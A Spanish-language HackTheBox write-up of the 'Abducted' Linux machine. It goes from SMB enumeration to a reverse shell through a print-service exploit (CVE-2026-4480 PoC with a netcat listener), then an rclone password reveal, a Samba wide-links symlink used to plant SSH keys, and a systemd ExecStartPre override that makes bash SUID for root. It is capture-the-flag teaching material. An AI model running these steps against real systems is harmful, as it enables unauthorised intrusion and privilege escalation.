








# Abducted HackTheBox (Intermediate)

# Contexto de la maquina
## Trayectoria Abducted

<figure><figcaption></figcaption></figure>

## Descripción

**Abducted** es una máquina Linux de dificultad **Intermediate** centrada en la explotación de un entorno Samba mal configurado y la cadena de vulnerabilidades que permite comprometer progresivamente tres usuarios del sistema hasta llegar a `root`. El reto pone especial énfasis en la enumeración exhaustiva de SMB, el análisis de configuraciones de Samba inseguras y el abuso de permisos de grupo sobre archivos de systemd.

La cadena de compromiso combina la explotación de una vulnerabilidad en el servicio de impresión SMB para obtener acceso inicial, descifrado de contraseñas almacenadas en la configuración de `rclone`, abuso de la directiva `wide links` de Samba para escribir en el home de otro usuario mediante enlaces simbólicos, y finalmente escalada a `root` inyectando un `override.conf` en la unidad de systemd de Samba gracias a permisos de grupo excesivos.

**Objetivo**

- Explotar el servicio de impresión SMB para obtener RCE como `nobody`.
- Descifrar la contraseña de `rclone` para acceder como `scott` por SSH.
- Abusar de `wide links` en Samba para escribir una clave SSH autorizada en el home de `marcus`.
- Escalar a `root` inyectando un override de systemd en el servicio `smbd`.

**Tipo de máquina**

- Plataforma: Hack The Box
- Sistema operativo: Linux
- Categoría principal: SMB / Linux Privilege Escalation
- Componentes involucrados:
    - Samba 4 con sesión nula y enumeración de usuarios.
    - CVE-2026-4480: RCE en servicio de impresión SMB.
    - `rclone` con contraseña cifrada reversible.
    - Samba `wide links = yes` para acceso a rutas fuera del share.
    - Permisos de grupo en `/etc/systemd/system/smbd.service.d`.
    - Inyección de `override.conf` para SUID en bash.

**Habilidades y técnicas evaluadas**

- Enumeración SMB con `enum4linux` y `netexec`.
- Identificación de recursos y usuarios mediante sesión nula.
- Explotación de RCE en impresora SMB (CVE-2026-4480).
- Tratamiento y estabilización de TTY.
- Lectura y análisis de archivos de configuración de `rclone`.
- Descifrado de contraseñas `rclone` con `rclone reveal`.
- Reutilización de credenciales entre usuarios.
- Abuso de `wide links` en Samba para lectura/escritura fuera del share.
- Creación de claves SSH e inyección de `authorized_keys` vía SMB.
- Enumeración de archivos accesibles por grupo.
- Inyección de `ExecStartPre` en unidades de systemd.
- Escalada de privilegios mediante SUID en bash.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

# Escaneo de puertos

Comenzamos realizando un escaneo completo de todos los puertos TCP para identificar los servicios expuestos en la máquina objetivo. El flag `--open` nos filtra solo los puertos abiertos, `-sS` realiza un escaneo SYN (sigiloso), y `--min-rate 5000` acelera el proceso enviando al menos 5000 paquetes por segundo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un segundo escaneo más detallado sobre ellos para obtener las versiones exactas de los servicios y ejecutar los scripts de detección por defecto de Nmap (`-sCV`).

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-10 12:39 +0000
Nmap scan report for 10.129.244.177
Host is up (0.030s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4

Host script results:
|_nbstat: NetBIOS name: ABDUCTED
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 13.17 seconds
```

El escaneo revela tres puertos abiertos:

- **Puerto 22** → SSH (OpenSSH 9.6p1), de momento no explotable directamente.
- **Puertos 139/445** → SMB (Samba 4). El puerto `139` es NetBIOS Session Service y el `445` es el protocolo SMB moderno. Son los que más llaman la atención y por donde comenzará la explotación.

También observamos que la firma de mensajes SMB está habilitada pero **no es obligatoria** (`signing: not required`), lo que abre la puerta a ataques de relay en caso necesario.
## Enumeración SMB con enum4linux

**enum4linux** es una herramienta especializada en extraer información de servidores Samba/Windows mediante sesiones nulas (sin credenciales). Con el flag `-a` ejecuta todos los módulos disponibles: usuarios, recursos compartidos, política de contraseñas, grupos y más:

```bash
enum4linux -a <IP>
```

Del output completo, los hallazgos más relevantes son:

**Usuarios locales descubiertos:**
- `scott` (Scott Mercer)
- `marcus`
- `nobody` (cuenta estándar de bajo privilegio)

**Recursos compartidos disponibles:**
- `projects` → Acceso denegado con sesión nula. Objetivo de alto valor.
- `transfer` → Acceso denegado con sesión nula. También interesante.
- `HP-Reception` → Impresora de recepción. No parece interesante a primera vista, pero lo será.
- `IPC$` → Recurso de comunicación entre procesos, estándar en cualquier Samba.

**Política de contraseñas (muy relevante):**
- Longitud mínima: **5 caracteres** (extremadamente débil).
- Complejidad: **Deshabilitada** (no requiere mayúsculas, números ni caracteres especiales).
- Umbral de bloqueo: **Ninguno** (se puede hacer fuerza bruta indefinidamente sin bloquear cuentas).

Esta combinación hace completamente viable un ataque de fuerza bruta sin ningún riesgo de inutilizar las cuentas.
# Netexec

<figure><figcaption></figcaption></figure>

## Validación de acceso con contraseña vacía

Antes de lanzar fuerza bruta, probamos si alguno de los usuarios tiene la contraseña en blanco. Con `netexec smb` y el flag `--shares` intentamos listar los recursos compartidos con cada usuario y contraseña vacía:

```bash
netexec smb <IP> -u scott -p '' --shares
netexec smb <IP> -u marcus -p '' --shares
```

Resultado:

```
SMB   10.129.244.177  445  ABDUCTED  [-] ABDUCTED\scott: STATUS_LOGON_FAILURE

SMB   10.129.244.177  445  ABDUCTED  [+] ABDUCTED\marcus: (Guest)
SMB   10.129.244.177  445  ABDUCTED  Share           Permissions     Remark
SMB   10.129.244.177  445  ABDUCTED  -----           -----------     ------
SMB   10.129.244.177  445  ABDUCTED  HP-Reception    WRITE           Reception printer
SMB   10.129.244.177  445  ABDUCTED  projects                        Hartley Group Project Files
SMB   10.129.244.177  445  ABDUCTED  transfer                        Staff file transfer
SMB   10.129.244.177  445  ABDUCTED  IPC$                            IPC Service
```

El usuario `marcus` acepta autenticación sin contraseña como invitado (`Guest`). Lo más importante del resultado es que tenemos **permiso de escritura** sobre el recurso `HP-Reception`, que corresponde a la impresora de recepción. Esto es el vector de entrada que buscábamos.
# Escalate user nobody

<figure><figcaption></figcaption></figure>

## CVE-2026-4480 — RCE en servicio de impresión SMB

El **CVE-2026-4480** afecta al gestor de trabajos de impresión de Samba. Un atacante con acceso de escritura al recurso de impresora puede enviar un trabajo de impresión manipulado que el servidor procesa ejecutando comandos arbitrarios del sistema operativo, con los privilegios del proceso de Samba (`nobody` en esta configuración).

El PoC está disponible en:

URL = [Exploit GitHub CVE-2026-4480](https://github.com/TheCyberGeek/CVE-2026-4480-PoC/tree/main)

Copiamos el `exploit.py` del repositorio a nuestra máquina, nos ponemos a la escucha y lanzamos el exploit apuntando al recurso `HP-Reception`:

```bash
nc -lvnp <PORT>
```

```bash
python3 exploit.py <IP_VICTIM> <IP_ATTACKER> <PORT_ATTACKER> -P 'HP-Reception'
```

Resultado:

```
[*] target   : 10.129.244.177 (\\10.129.244.177\HP-Reception)
[*] callback : 10.10.15.11:7777
[+] print job submitted -- check your listener / out-of-band channel
```

Si volvemos donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [10.10.15.11] from (UNKNOWN) [10.129.244.177] 39552
nobody@abducted:/var/spool/samba$ whoami
nobody
```

El exploit funciona. Tenemos shell como `nobody`. Sanitizamos la TTY.
## Sanitizacion shell (TTY)

La shell obtenida a través de una reverse shell suele ser muy limitada: no tiene autocompletado, no permite usar atajos de teclado como `Ctrl+C` sin matar la sesión, y en general es bastante incómoda. Por eso realizamos el siguiente proceso para convertirla en una TTY completamente interactiva:

```shell
script /dev/null -c bash
```

```shell
# Suspendemos el proceso con Ctrl+Z
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Consultamos las dimensiones de nuestra terminal local
stty size

# Ajustamos las dimensiones de la shell remota para que coincidan
stty rows <ROWS> columns <COLUMNS>
```
# Escalate user scott

<figure><figcaption></figcaption></figure>

## Descubrimiento de la configuración de rclone

Explorando el directorio `/opt`, encontramos una carpeta de backup:

```bash
ls -la /opt/
```

Resultado:

```
drwxr-xr-x  2 root root 4096 Jun  4 13:41 offsite-backup
```

Dentro hay dos archivos:

```bash
ls -la /opt/offsite-backup/
```

Resultado:

```
-rw-r--r-- 1 root root  141 Oct  9  2025 rclone.conf
-rwxr-xr-x 1 root root  105 Oct  9  2025 sync.sh
```

Los leemos:

> rclone.conf

```
[offsite]
type = sftp
host = backup.hartley-group.internal
user = svc-backup
pass = HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
shell_type = unix
```

> sync.sh

```bash
#!/bin/bash
/usr/bin/rclone --config /opt/offsite-backup/rclone.conf sync /srv/projects offsite:projects
```

El script de sincronización usa `rclone` para copiar los archivos del proyecto a un servidor de backup remoto vía SFTP. La contraseña en `rclone.conf` está cifrada con el esquema propietario de rclone, que parece protegida pero **no lo está**: rclone incluye un comando para revertirla a texto plano sin necesitar ninguna clave maestra.
## Descifrado de la contraseña con rclone reveal

El cifrado que usa rclone para las contraseñas en sus archivos de configuración es completamente reversible mediante el propio binario. No es un hash ni usa una clave externa; está diseñado solo para ofuscación básica:

```bash
rclone reveal HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
```

Resultado:

```
iXzvcib3SrpZ
```

Tenemos la contraseña en texto plano: `iXzvcib3SrpZ`. Pertenece al usuario `svc-backup` del servidor remoto, pero en entornos donde se reutilizan contraseñas es habitual que también funcione para usuarios locales.
## SSH (scott)

Probamos la contraseña con todos los usuarios conocidos del sistema por SSH. Funciona con `scott`:

```bash
ssh scott@<IP>
# Contraseña: iXzvcib3SrpZ
```

Resultado:

```
scott@abducted:~$ whoami
scott
```

Somos `scott`. Leemos la flag del usuario:

> user.txt

```
d3fbcaffd34d0cdf55505711f4d45756
```
# Escalate user marcus

<figure><figcaption></figcaption></figure>

## Análisis de la configuración Samba

Enumerando el sistema como `scott`, inspeccionamos la configuración del servidor Samba para entender cómo están definidos los recursos compartidos:

```bash
cat /etc/samba/shares.conf
```

Resultado:

```
[transfer]
   comment = Staff file transfer
   path = /srv/transfer
   valid users = scott
   force user = marcus
   read only = no
   wide links = yes
   browseable = yes
```

Dos directivas son especialmente peligrosas en esta configuración:

- **`force user = marcus`** → Cualquier operación que realice `scott` dentro de este share (lecturas, escrituras, creación de archivos) se ejecuta en realidad con los privilegios del usuario `marcus`. Es decir, si `scott` escribe un archivo en el share, el sistema lo crea como si lo hubiera creado `marcus`.
- **`wide links = yes`** → Samba seguirá los enlaces simbólicos aunque apunten a rutas fuera del directorio compartido (`/srv/transfer`). Normalmente esto está prohibido por seguridad. Con esta directiva activa, un enlace simbólico dentro del share puede apuntar a cualquier parte del sistema de archivos.

La combinación de ambas directivas nos permite escribir ficheros en cualquier directorio del sistema al que `marcus` tenga acceso, simplemente creando un enlace simbólico en el share y operando sobre él desde la conexión SMB.
## Abuso de wide links para escribir en el home de marcus

El plan es el siguiente: creamos un enlace simbólico en `/srv/transfer` que apunte a `/home/marcus`. Cuando accedamos al share por SMB y naveguemos por ese enlace, Samba lo seguirá y todas las operaciones se realizarán en `/home/marcus` como si fuera `marcus`.

**Paso 1:** Desde la shell de `scott` en la máquina víctima, creamos el enlace simbólico:

```bash
cd /srv/transfer
ln -s /home/marcus marcus_home
```

**Paso 2:** Desde nuestra máquina atacante, nos conectamos al share `transfer` como `scott`:

```bash
smbclient //<IP>/transfer -U scott
# Contraseña: iXzvcib3SrpZ
```

**Paso 3:** Navegamos por el enlace simbólico y comprobamos que podemos ver el contenido del home de `marcus`:

```
smb: \> ls
  marcus_home    D   0  Fri Jul 10 08:29:03 2026

smb: \> cd marcus_home
smb: \marcus_home\> ls
  .profile       H    807  ...
  .bash_logout   H    220  ...
  .bashrc        H   3771  ...
  .cache        DH      0  ...
```

El enlace funciona y podemos listar el home de `marcus` a través de SMB.
## Inyección de clave SSH autorizada

Ahora que podemos escribir en el home de `marcus` con sus propios permisos, creamos un par de claves RSA en nuestra máquina atacante:

```bash
ssh-keygen -t rsa -b 2048 -f marcus_key -N ""
```

Creamos el directorio `.ssh` dentro del home de `marcus` a través de la sesión SMB y subimos la clave pública como `authorized_keys`:

```
smb: \marcus_home\> mkdir .ssh
smb: \marcus_home\> cd .ssh
smb: \marcus_home\.ssh\> put marcus_key.pub authorized_keys
putting file marcus_key.pub as \marcus_home\.ssh\authorized_keys (4.0 kB/s)
```
## Acceso SSH como marcus

Con la clave pública instalada en el home de `marcus`, nos conectamos por SSH usando nuestra clave privada:

```bash
ssh -i marcus_key marcus@<IP>
```

Resultado:

```
marcus@abducted:~$ whoami
marcus
```

Somos `marcus`.
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Enumeración de grupos y permisos

Comprobamos a qué grupos pertenece `marcus`:

```bash
id
```

Resultado:

```
uid=1001(marcus) gid=1002(marcus) groups=1002(marcus),1000(operators)
```

`marcus` pertenece al grupo `operators`. Buscamos qué archivos o directorios del sistema tienen ese grupo asignado:

```bash
find / -group operators 2>/dev/null
```

Resultado:

```
/etc/systemd/system/smbd.service.d
```
## Análisis del directorio de override de systemd

```bash
ls -la /etc/systemd/system/smbd.service.d
```

Resultado:

```
drwxrws---  2 root operators 4096 Jun  4 13:41 .
```

Los permisos `drwxrws---` merecen una explicación:

- `drwxrws---` → El propietario es `root`, el grupo es `operators`, y la `s` en la posición del grupo indica **SGID** (Set Group ID). Esto significa que cualquier archivo creado dentro de este directorio heredará automáticamente el grupo `operators`, independientemente de quién lo cree.
- El grupo `operators` tiene permisos de lectura, escritura y ejecución (`rwx`) sobre el directorio.

Como `marcus` pertenece a `operators`, podemos **crear archivos dentro de ese directorio**, que es el directorio de overrides de la unidad systemd del servicio `smbd`.
## Inyección del override de systemd

Los archivos `.conf` dentro de `/etc/systemd/system/smbd.service.d/` se aplican como **overrides** (sobreescrituras parciales) a la unidad de systemd `smbd.service`. Cuando el servicio se reinicia, `systemd` funde la configuración base con todos los overrides y los aplica juntos.

La directiva `ExecStartPre` define un comando que se ejecuta **antes** de que arranque el servicio principal, con los privilegios del usuario que ejecuta el servicio. Como `smbd` se gestiona y reinicia como `root`, cualquier comando en `ExecStartPre` se ejecutará también como `root`.

Creamos un override que activa el bit SUID en `/bin/bash`:

```bash
cat > /etc/systemd/system/smbd.service.d/override.conf << 'EOF'
[Service]
ExecStartPre=/bin/bash -c 'chmod +s /bin/bash'
EOF
```
## Reinicio del servicio y escalada a root

Recargamos la configuración de systemd para que detecte el nuevo override y reiniciamos el servicio:

```bash
systemctl daemon-reload
systemctl restart smbd
```

Al reiniciar, systemd ejecuta nuestro `ExecStartPre` como `root`, activando el SUID en `bash`. Verificamos:

```bash
ls -la /bin/bash
```

Resultado:

```
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

El bit SUID está activo. Escalamos a `root` con el flag `-p`, que indica a bash que preserve los privilegios del propietario del binario en lugar de usar los del usuario que lo lanza:

```bash
bash -p
```

Resultado:

```
bash-5.2# whoami
root
```

Ya somos `root`. Leemos la flag final:

> root.txt

```
06b4eb3e34c48d71ad87928fc87f07c2
```

